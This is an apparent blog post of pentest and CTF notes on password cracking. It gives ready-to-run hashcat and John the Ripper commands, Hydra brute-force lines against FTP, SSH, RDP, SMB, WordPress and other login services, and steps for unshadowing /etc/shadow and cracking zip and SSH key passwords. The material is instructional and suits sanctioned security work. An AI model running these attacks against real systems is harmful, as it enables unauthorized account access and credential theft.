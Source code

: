 ```yaml
---
title: Password Cracking 
date: 2020-09-22 18:08:00 +/- 0000
categories: [Notes, Passwords]
tags: [Passwords, Hashcat, JTR, Crunch, Cewl, ssh2john, Hydra, zip2john]
headline: Comprehensive notes for password cracking and brute forcing.
image: /assets/img/Pass/cat_logo.png
---
```


Password cracking, brute forcing and wordlist creation are an important part of infosec, from doing CTF's as a hobby or as a professional pentester, having a solid methodology to giving yourself the best chance crack a password or hash is a vital skill. These notes are not set in stone and not all encompassing. If you see a mistake or have a suggestion for the page, please contact me on Discord at ***Buter#2867*** 

## Basic Everyday Cracking

Just so we have a hash to play with, I'll generate an md5 hash of the word 'passw0rd'.
```shell
echo -n "passw0rd" | md5sum > hash.txt
```

![make_hash](/assets/img/Pass/1_make_hash.png)

We know this is an md5 hash, but you'll always have to check the type of hash you are trying to crack. My tool for this is hashid.py (<https://github.com/psypanda/hashID>). I like this tool because it does a good job of identifying the hash and will also give you the Hashcat and JTR code if you ask for it with -m and -j respectively.
```shell
./hashid.py -m -j 'bed128365216c019988915ed3add75fb'
```

![Hash_id](/assets/img/Pass/2_hashid.py.png)

We get a list of possible hashes so a bit of common sense comes into play, here. The first Hashcat code is for a raw md5, which is what we know it is, and it has a code of 0. 

![Cat](/assets/img/Pass/cat_logo.png)

We will now try to crack the hash with ***Hashcat*** by specifying the hash file and the wordlist we want to use, rockyou.txt in this case. I am using my Kali machine, so we need to use ***--force*** to force it to use the CPU and we'll use -a 0 for a straight attack.
```shell
hashcat --force -m 0 -a 0 hash.txt rockyou.txt
```

![Hashcat](/assets/img/Pass/3_hashcat.png)

After it shows us a couple of warnings about using --force, it takes a few seconds to sort it's life out and then starts the cracking, which takes it less than a second.

![John_logo](/assets/img/Pass/jtr_logo.png)
Now let's try the same attack with ***John
 The Ripper***.
```shell
john --wordlist=rockyou.txt --format=raw-md5 hash.txt
```

![JTR](/assets/img/Pass/jtr.png)

John cracked it in less than a second as well. It's worth noting that if you try to crack it again, you won't get the output as JTR will have stored the cracked hash in the pot file at **/root/.john/john.pot**. You will need to erase the file to crack it again, or cat the file to see the password.

## Hydra Attacks

![Hydra](/assets/img/Pass/hydra_logo.png)

I won't lie, Hydra is a finicky little fella, so getting the syntax right is vital and I certainly seem to get it wrong more often than I get it right on certain attacks. Note the use of upper/lower case; -p password vs. -P password.txt.

The -t flag specifies the number of threads you are running in the attack. For ssh I commonly use 4. For other services I will use trial and error to find a good number.

If the service you are attacking is running on a *non-standard* port, you must specify that with the -s flag. ex: ftp is running on port 1021, the end of the attack would look be **ftp -s 1021**

**FTP**
```shell
hydra -t 1 -l user -P rockyou.txt -vV $ip ftp
```
**SSH**
```shell
hydra -v -V -u -l user -P rockyou.txt -t 4 -u $ip ssh
```
**POP3**
```shell
hydra -l user -P rockyou.txt -f $ip pop3 -V -t 1
```
**Wordpress**
```shell
hydra -l user -P rockyou.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
**WPscan for Wordpress**
```shell
wpscan --url $ip -U user -P rockyou.txt
```
**Windows RDP**
```shell
hydra -t 1 -V -f -l user -P rockyou.txt rdp://$ip
```
**SMB**
```shell
hydra -t 1 -V -f -l user -P rockyou.txt $ip smb
```
**401 Auth**
```shell
hydra -l user -P rockyou.txt $ip http-get /path
```
**SNMP**
```shell
hydra -P rockyou.txt -v $ip snmp
```
**MYSQL**
```shell
hydra -l user -P rockyou.txt $ip mysql -V -f
```
**VNC**
```shell
hydra -P rockyou.txt $ip vnc -V
```

## Zip Passwords

Zip files can have passwords set on them, but we have a way to crack those, too! We will use JTR for this as it seems to be a bit more forgiving, but first, we need to create a hash that John can understand and zip2john can do this for us.
```shell
zip2john tom.zip | cut -d ':' -f 2 > hash.txt
```
Then use john to crack the zip password.
```shell
john hash.txt --format=PKZIP --wordlist=/root/RockYou/rockyou.txt
```
![Zip](/assets/img/Pass/zippy.png)

Hashcat may also be used to crack the zip password, but the hash may need to be modified as per the example on the hashcat example page.
<https://hashcat.net/wiki/doku.php?id=example_hashes>

```shell
hashcat -a 0 -m 17200 hashes.txt rockyou.txt
```

## Linux Passwords

Linux passwords are kept in the /etc/shadow file, not the /etc/passwd file. To crack them easily, we need to "unshadow" them. For that we will need the passwd and the shadow file. I've created a user *unicorn* with password *password* to illustrate.
```shell
unshadow test_passwd.txt test_shadow.txt > test.txt
hashcat --force -m 1800 -a 0 test.txt rockyou.txt
```

![Shadow1](/assets/img/Pass/shadow1.png)
![Shadow2](/assets/img/Pass/shadow2.png)

## SSH Key Encryption

Getting an SSH key to a machine is always pretty cool. Well, until you try to use it and find out it's encrypted and you don't have the password. John The Ripper comes to our rescue again. Like a zip file, we need to get the file into a format that JTR can read, so we will use ssh2john.py.

Here we have recovered a private key, but it clearly says it's encrypted. If we try to use it, we will be asked for a password.

![SSH1](/assets/img/Pass/ssh1.png)

I can't remember where ssh2john lives, so I locate it and use it's full path from my RockYou directory. Once ssh2john has run, we can use JTR to crack the password as usual.
```shell
/usr/share/john/ssh2john.py
python /usr/share/john/ssh2john.py id_rsa > id_john
```

![SSH2](/assets/img/Pass/ssh2.png)

John cracks the password to ***superpassword*** so this key may now be used to login.

Top tip from Mr. Ippsec (Tenten video) is to use sshng2john if you are using JumboJohn to crack. <https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py>






